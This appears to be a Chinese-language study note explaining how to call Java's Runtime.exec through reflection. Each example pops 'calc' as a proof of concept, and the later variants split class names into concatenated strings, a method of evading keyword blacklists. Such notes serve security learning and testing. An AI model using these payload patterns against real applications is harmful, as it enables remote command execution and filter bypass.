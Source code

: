 ```java
((Runtime) Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null)).exec("calc");
```

需要注意的是 `Class.getMethod` 的返回类型是 `java.lang.reflect.Method`，而 `Method.invoke()` 的返回类型是 `java.lang.Object`。

因此，当你试图在返回的 Object 类型上调用 `exec` 方法时，编译器无法找到 `exec` 方法，因为 `java.lang.Object` 类没有定义 `exec` 方法。

所以这里用的 `(Runtime)` 来将 `invoke` 的返回值强制类型转换为 `Runtime` 类型，因为 `exec` 是 `Runtime` 类的方法

---

不加强制类型转换的话可以这样写:

```java
Class.forName("java.lang.Runtime").getMethod("exec", String.class).invoke(
        Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),
        "calc"
);
```

首先获取 `exec` 方法的 `Method` 对象，然后再调用 `invoke` 方法，其第一个参数传递了 `exec` 方法的调用者(`Runtime` 对象) ，第二个参数传递了 `exec` 方法的参数(`calc`) 。

或者通过 `String对象.getClass()` 来获取 `Class` 也可以:

```java
"va".getClass().forName("java.lang.Runtime").getMethod("exec", String.class).invoke(
        "va".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),
        "calc"
);
```

以及这里的字符串是可以拆分再拼接的, 下面这种写法也是可以正确执行的:

```java
Class.forName("java"+".lang.Runtime").getMethod("exec", String.class).invoke(
        Class.forName("java.la"+"ng.Runtime").getMethod("getRuntime").invoke(null),
        "calc"
);
```

```java
"va".getClass().forName("java.lan"+"g.Runtime").getMethod("exec", String.class).invoke(
        "va".getClass().forName("java.l"+"ang.Runtime").getMethod("getRuntime").invoke(null),
        "calc"
);`
```

---











